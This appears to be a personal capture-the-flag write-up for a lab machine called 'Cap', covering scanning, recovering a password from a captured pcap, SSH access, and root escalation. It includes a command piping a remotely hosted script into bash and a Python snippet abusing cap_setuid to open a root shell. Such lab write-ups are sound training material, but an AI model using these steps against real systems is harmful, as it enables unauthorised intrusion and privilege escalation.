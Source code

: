 # CAP

## 🧾 Basic Info

- **Machine Name**: Cap
- **IP Address**: 10.10.10.245
- **Date**: 27/07/2025
- **Difficulty**: Easy
- **Your Username**: Marwk

---

## 🔎 Step 1: Scanning

### Nmap Scan

**Open Ports:**
- Port: 21, 22, 80
- Service: FTP, SSH, gunicorn(webserver)

---

## 🌐 Step 2: Enumeration

- we can download the output of netstat scan done on the host
- going to /data/0 reveals previous scan
- after downloading the pcap file and going through it we can find the user Nathans password for the ftp server

---

## 🔓 Step 3: Getting In (Initial Access)

- we also find that the password found above can also be used to login to SSH
- here we can find the user flag in the user's desktop

---

## 🔼 Step 4: Privilege Escalation

- we use linPEAS for privilege escalation 
- we host a http server on our VM where linpeas.sh is contained
- then we can just curl the contents of linpeas.sh onto the host and pipe it into bash
$curl http://10.10.16.19/linpeas.sh | bash
- in the linpeas output we see that the /usr/bin/python3.8 has cap_setuid. this can allow us to set our uid to 0, that is root.
-by running the following in /usr/bin/python3.8 we can access the root terminal:
import os
os.setuid(0)
os.system("/bin/bash")

---

## 🧠 Notes / What You Learned

Overall the machine was Easy but i had to refer to the official writeup for most parts like:
- going to /data/0
- using the password for ssh
- using linpeas
- using the python misconfiguration

---

## 🧰 Tools You Used

- Nmap
- LinPEAS
- WireShark